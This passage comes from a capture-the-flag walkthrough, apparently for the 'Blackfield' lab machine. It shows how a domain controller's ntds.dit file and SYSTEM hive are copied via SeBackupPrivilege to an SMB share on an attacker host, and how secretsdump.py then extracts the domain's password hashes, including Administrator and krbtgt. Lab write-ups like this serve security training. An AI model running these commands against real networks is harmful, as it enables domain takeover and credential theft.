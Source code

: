 

    *Evil-WinRM* PS C:\programdata> Copy-FileSeBackupPrivilege z:\Windows\ntds\ntds.dit \\10.10.14.14\s\ntds.dit



It takes a minute, but it succeeds.

To get hashes out of this, I'll also need the keys from the `SYSTEM`
registry file. I'll save it with `reg`:



    *Evil-WinRM* PS C:\programdata> reg.exe save hklm\system \\10.10.14.14\system



I'll run my clean up script to close the z: drive.

### Dump Hashes

Now I can use these two files to dump hashes for the full domain using
`secretsdump.py`:



    root@kali# secretsdump.py -system system -ntds ntds.dit LOCAL
    Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

    [*] Target system bootKey: 0x73d83e56de8961ca9f243e1a49638393
    [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
    [*] Searching for pekList, be patient
    [*] PEK # 0 found and decrypted: 35640a3fd5111b93cc50e3b4e255ff8c
    [*] Reading and decrypting hashes from ntds.dit
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::
    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    DC01$:1000:aad3b435b51404eeaad3b435b51404ee:65557f7ad03ac340a7eb12b9462f80d6:::
    krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d3c02561bba6ee4ad6cfd024ec8fda5d:::
    audit2020:1103:aad3b435b51404eeaad3b435b51404ee:c95ac94a048e7c29ac4b4320d7c9d3b5:::
    support:1104:aad3b435b51404eeaad3b435b51404ee:cead107bf11ebc28b3e6e90cde6de212:::
    BLACKFIELD.local\BLACKFIELD764430:1105:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
    BLACKFIELD.local\BLACKFIELD538365:1106:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
    BLACKFIELD.local\BLACKFIELD189208:1107:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
    BLACKFIELD.local\BLACKFIELD404458:1108:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
    BLACKFIELD.local\BLACKFIELD706381:1109:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
    BLACKFIELD.local\BLACKFIELD937395:1110:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
    BLACKFIELD.local\BLACKFIELD553715:1111:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
    ...[snip]...



### Shell
